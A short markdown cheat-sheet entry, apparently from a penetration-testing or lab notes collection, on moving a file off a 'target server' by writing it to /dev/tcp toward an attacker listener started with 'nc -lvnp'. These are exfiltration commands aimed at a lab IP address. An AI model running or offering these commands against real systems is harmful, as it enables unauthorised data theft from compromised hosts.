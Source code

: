 # File Transfer in Linux

---

#### Downloading an file to local machine

On target server

```
cat <file> > /dev/tcp/10.10.14.186/8888
```

On local machine

```
nc -lvnp 8888 > file.jar
```
